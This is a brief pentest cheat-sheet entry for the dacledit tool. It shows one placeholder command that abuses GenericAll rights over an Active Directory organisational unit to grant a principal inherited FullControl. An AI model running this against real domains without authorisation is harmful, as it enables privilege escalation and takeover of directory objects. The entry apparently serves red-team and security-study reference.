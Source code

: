 # dacledit
#plateform/linux #target/remote #cat/ATTACK

## Abuse GenericAll over OU
```
dacledit.py -action 'write' -rights 'FullControl' -principal <user> -target-dn '<object_dn>' -inheritance <domain>/<user>:'<passwd>' -dc-ip <ip>
```
